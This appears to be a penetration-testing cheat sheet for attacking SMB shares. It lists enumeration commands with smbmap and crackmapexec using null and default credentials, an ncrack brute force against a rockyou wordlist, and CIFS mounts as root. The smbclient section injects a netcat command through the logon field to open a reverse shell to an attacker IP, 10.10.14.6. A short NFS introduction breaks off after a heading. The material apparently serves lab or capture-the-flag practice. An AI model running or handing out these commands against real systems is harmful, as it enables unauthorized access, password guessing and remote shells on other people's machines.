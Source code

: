 ### smbmap


```
smbmap -H <IP> 
smbmap -H <IP> -u '' -p '' # Enumerate samba share drives across a domain 
smbmap -H <IP> -s <Share name>
```


### crackmapexec


```
crackmapexec smb <IP> -u '' -p '' --shares 
crackmapexec smb <IP> -u 'sa' -p '' --shares 
crackmapexec smb <IP> -u 'sa' -p 'sa' --shares 
crackmapexec smb <IP> -u '' -p '' --share <Share name>
```

### ncrack


```
ncrack -T 5 <IP> -p smb -v -u <Username> -P /usr/bin/wordlists/rockyou.txt
```

### mount


```
mount -t cifs "//<IP>/share/" /mnt/wins 
mount -t cifs "//<IP>/share/" /mnt/wins -o vers=1.0,user=root,uid=0,gid=0
```

### smbclient (reverse shell)


```
smbclient -U "username%password" //<IP>/share_name   # After successful login: 
smb> logon "/=nc 'attack box IP' 4444 -e /bin/bash  # SMB shell to get a reverse shell 
smb> logon "/=`nohup nc -nv 10.10.14.6 4444 -e /bin/sh`"
```




# ==NFS==

### Network File System (NFS) 

- **Purpose**: Developed by Sun Microsystems to access files over a network as if they were local, similar to SMB but using a different protocol.
- **Compatibility**: Primarily used between Linux and Unix systems. NFS clients cannot communicate with SMB servers.

### ONC-RPC/SUN-RPC Protocol
